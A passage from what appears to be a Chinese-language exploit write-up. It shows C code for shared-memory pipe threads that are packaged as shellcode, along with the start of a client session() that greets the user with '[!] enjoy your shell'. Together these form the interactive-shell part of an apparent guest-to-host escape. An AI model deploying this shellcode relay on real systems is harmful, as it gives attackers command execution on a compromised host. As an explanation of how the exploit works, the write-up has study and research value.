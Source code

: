 ```c

		__atomic_clear(&ring->lock, __ATOMIC_RELAXED);
	} while (written != len);

	return written;
}

```

以下线程函数使用这些原语。第一个从共享内存区域读取数据并写到一个文件描述符中。第二个从一个文件描述符中读取数据并写到共享内存区域中。

```c
void *pipe_r2fd(void *_brwpipe)
{
	struct brwpipe *brwpipe = (struct brwpipe *)_brwpipe;
	char buf[SHARED_BUFFER_SIZE];
	ssize_t len;

	while (true) {
		len = sm_read(brwpipe->got, brwpipe->ring, buf, sizeof(buf));
		if (len > 0)
			brwpipe->got->write(brwpipe->fd, buf, len);
	}

	return NULL;
} SHELLCODE(pipe_r2fd)

void *pipe_fd2r(void *_brwpipe)
{
	struct brwpipe *brwpipe = (struct brwpipe *)_brwpipe;
	char buf[SHARED_BUFFER_SIZE];
	ssize_t len;

	while (true) {
		len = brwpipe->got->read(brwpipe->fd, buf, sizeof(buf));
		if (len < 0) {
			return NULL;
		} else if (len > 0) {
			len = sm_write(brwpipe->got, brwpipe->ring, buf, len);
		}
	}

	return NULL;
}
```

注意这些函数的代码在主机和客户机之间是共享的。这些线程也在客户机中实现，用于读取用户输入的命令并把它们拷贝到专用的共享内存区域（在内存中），并写回这些命令在相应共享内存区域中可获得的输出（out 和 err 共享内存）：

```c
void session(struct shared_io *shared_io)
{
	size_t len;
	pthread_t t_in, t_out, t_err;
	struct GOT got;
	struct brwpipe *in, *out, *err;

	got.read = &read;
	got.write = &write;

	warnx("[!] enjoy your shell");
	fputs(COLOR_SHELL, stderr);

	in = malloc(sizeof(struct brwpipe));
	out = malloc(sizeof(struct brwpipe));
```
